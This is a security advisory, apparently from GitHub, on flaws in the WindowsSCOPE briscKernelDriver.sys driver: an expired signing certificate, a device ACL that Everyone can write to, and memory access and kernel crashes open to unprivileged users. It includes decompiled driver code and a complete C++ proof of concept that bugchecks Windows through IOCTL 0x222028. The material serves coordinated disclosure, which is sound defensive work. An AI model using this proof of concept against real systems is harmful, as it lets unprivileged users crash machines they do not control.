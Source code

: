 # WindowsSCOPE Vulnerabilities

## Overview
Vendor			   	: BlueRiSC
Website			   	: https://www.windowsscope.com/
Product			   	: briscKernelDriver.sys
Affected Version(s)	: < 3.3

"WindowsSCOPE Cyber Forensics 3.2 is a GUI-based memory forensic capture and analysis toolkit. It supports the import of standard raw physical memory dumps which are then automatically reverse engineered and presented in an easy-to-view format for forensic analysis in a central location. It automatically identifies all processes, threads, and drivers running on the system as well as other system activity including open files, registry keys, and network sockets. It supports the latest Windows versions through Windows 10 and also has advanced data search capabilities to find URLs, credit cards, names, etc. in captured memory. Applications include digital forensics, crime investigation, cyber defense & attack detection, and other reverse engineering activities."

While reviewing the briscKernelDriver.sys, several security issues were discovered. These issues include:
- Overly permissive access control to, `\\.\BriscKernel`, the device object created by the briscKernelDriver.sys driver.
- Expired code signing certificate for the briscKernelDriver.sys driver.
- Ability to leverage the briscKernelDriver.sys to perform memory operations in the context of an unprivileged user.
- Ability to trigger a denial-of-service condition (kernel bugcheck) if incorrect data was passed to the briscKernelDriver.sys in the context of an unprivileged user.

## Disclosure Timeline
- **02/13/2024** - Initial disclosure to BlueRiSC and notified of intent to publicly disclose security issues within 90-days.
- **02/14/2024** - Acknowledgement from BlueRiSC. Provided clarifying information about device object permissions and provided a method for them to confirm the ACL issues were addressed.
- **03/04/2024** - WindowsSCOPE website now displays version 3.3 indicating a silent patch without disclosure. Additional email to BlueRiSC was sent asking for clarification about this patch and advised that if these issues have been remediated, then we will move forward with an earlier public disclosure. 
- **03/05/2024** - BlueRiSC stated that version 3.3 contains the fix for the driver permission issue. A copy of the updated driver was requested to confirm everything was fixed.
- **03/06/2024** - BlueRiSC agreed to have the version 3.3 kernel driver tested to confirm permissions issue was fixed.
- **03/15/2024** - Version 3.3 kernel driver was tested and ACL fix was confirmed.
- **03/15/2024** - Public disclosure.

## Expired Driver Signing Certificate
WindowsSCOPE Cyber Forensics 3.2 ships with a version of briscKernelDriver.sys (built January 23, 2019) that has an expired signing certifiate.

![Expired Signing Certificate](images/expired-certificate.png)

A user of the WindowsSCOPE product would need to disable driver signature enforcement to use the provided driver.

## Overly Permissive Device Object ACL
The briscKernelDriver.sys driver creates a device object that allows the Everyone built-in group to write to the device. This is because `IoCreateDevice` was used instead of `WdmlibIoCreateDeviceSecure`\\`IoCreateDeviceSecure`.

![Device Object Permissions](images/device-object-permissions.png)

```c++
NTSTATUS DriverEntry(DRIVER_OBJECT* DriverObject)

    DbgPrint(Format: "BlueRISC Kernel Driver\n")
    DbgPrint(Format: "Built %s %s\n", "Jan 23 2019", "09:55:52")
    DriverObject->MajorFunction[0] = IRP_MJ_CreateClose
    DriverObject->MajorFunction[2] = IRP_MJ_CreateClose
    DriverObject->DriverUnload = sub_19314
    DriverObject->MajorFunction[0xe] = IRP_MJ_DEVICE_CONTROL
    void DeviceName
    RtlInitUnicodeString(DestinationString: &DeviceName, SourceString: u"\Device\BriscKernel")
    NTSTATUS rax = IoCreateDevice(DriverObject, DeviceExtensionSize: 0, DeviceName: &DeviceName, DeviceType: 0x22, DeviceCharacteristics: 0, Exclusive: 0, DeviceObject: &DeviceObject)
    if (rax s>= STATUS_SUCCESS)
        void SymlinkName
        RtlInitUnicodeString(DestinationString: &SymlinkName, SourceString: u"\DosDevices\BRISCKERNEL")
        NTSTATUS rax_1 = IoCreateSymbolicLink(SymbolicLinkName: &SymlinkName, DeviceName: &DeviceName)
        if (rax_1 s>= STATUS_SUCCESS)
            DEVICE_OBJECT* DeviceObject_1 = DeviceObject
            DeviceObject_1->Flags = DeviceObject_1->Flags | DO_BUFFERED_IO
            rax = STATUS_SUCCESS
        else
            IoDeleteDevice(DeviceObject)
            rax = rax_1
    return rax
```

## Denial of Service Proof-of-Concept
It is possible from an unprivileged context to interact with the driver and create a denial of service condition. This is possible by sending unexpected data to the `0x222028` IOCTL.

```c++
if (IOCTL == 0x222028)
    HANDLE Handle = *PIRP->AssociatedIrp
    DbgPrint(Format: "processHandle = 0x%x\n", Handle)
    rax_13 = ObReferenceObjectByHandle(Handle, DesiredAccess: 0x418, ObjectType: *PsProcessType, AccessMode: PIRP->RequestorMode, Object: &arg_10, HandleInformation: nullptr)
    rbx = rax_13
    if (rax_13 s>= STATUS_SUCCESS)
        void ApcState
        KeStackAttachProcess(PROCESS: arg_10, ApcState: &ApcState)
        *nullptr = 0
        PIRP->IoStatus.Information = 0
    else
        DbgPrint(Format: "ObReferenceObjectByHandle failed")
```

![Kernel Bug Check](images/bugcheck.png)

```c++
#include <windows.h>
#include <iostream>
#include <DbgHelp.h>
#include <TlHelp32.h>

#pragma comment(lib, "Dbghelp.lib")

#define IOCTL_GetVirtMem 0x222020
#define IOCTL_TriggerBugCheck 0x222028

static const char* DeviceName = R"(\\.\BriscKernel)";

typedef struct _BRISC_READ_MEMORY {
    HANDLE pHandle;
} BRISC_READ_MEMORY, * PBRISC_READ_MEMORY;

DWORD GetProcessIdByName(const std::wstring& processName) {
    HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pEntry;
    pEntry.dwSize = sizeof(pEntry);

    BOOL hRes = Process32First(hSnapShot, &pEntry);
    while (hRes) {
        if (wcscmp(pEntry.szExeFile, processName.c_str()) == 0) {
            CloseHandle(hSnapShot);
            return pEntry.th32ProcessID;
        }
        hRes = Process32Next(hSnapShot, &pEntry);
    }

    CloseHandle(hSnapShot);
    return 0;
}

std::wstring StringToWString(const std::string& s) {
    int len;
    int slength = (int)s.length() + 1;
    len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);
    wchar_t* buf = new wchar_t[len];
    MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);
    std::wstring r(buf);
    delete[] buf;
    return r;
}

constexpr DWORD cexpr_lstrlenW(const wchar_t str[]) {
    DWORD i = 0;
    while (str[i++]) {}
    return i;
}

void DumpVirtualMemory(const std::wstring& processName) {
    DWORD pid = GetProcessIdByName(processName);
    if (pid == 0) {
        std::wcout << L"Process not found.\n";
        return;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        std::wcout << L"Failed to open process.\n";
        return;
    }

    HANDLE hDevice = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE) {
        std::wcout << L"Failed to open device.\n";
        CloseHandle(hProcess);
        return;
    }

    BRISC_READ_MEMORY readMemory;
    readMemory.pHandle = hProcess;
    BYTE outBuffer[0x1004] = { 0 };
    DWORD dwBytesReturned;

    BOOL bResult = DeviceIoControl(hDevice, IOCTL_TriggerBugCheck, &readMemory, 0x18, outBuffer, 0x1004, &dwBytesReturned, NULL);
    if (!bResult) {
        std::wcout << L"DeviceIoControl failed with error: " << GetLastError() << L"\n";
    }
    else {
        std::wcout << L"You won't even see this because we bugchecked the system.\n";
        std::wcout << L"Memory dumped successfully.\n";

        std::wstring filePath = L"dumped_memory.bin";
        HANDLE hFile = CreateFileW(filePath.c_str(), GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hFile != INVALID_HANDLE_VALUE) {
            DWORD written;
            BOOL writeResult = WriteFile(hFile, outBuffer, dwBytesReturned, &written, NULL);
            if (!writeResult || written != dwBytesReturned) {
                std::wcout << L"Failed to write memory dump to file.\n";
            }
            else {
                std::wcout << L"Memory dump successfully written to " << filePath << L"\n";
            }
            CloseHandle(hFile);
        }
        else {
            std::wcout << L"Failed to open file for writing.\n";
        }
    }

    CloseHandle(hDevice);
    CloseHandle(hProcess);
}

int main() {
    DumpVirtualMemory(L"PoC.exe");
}
```
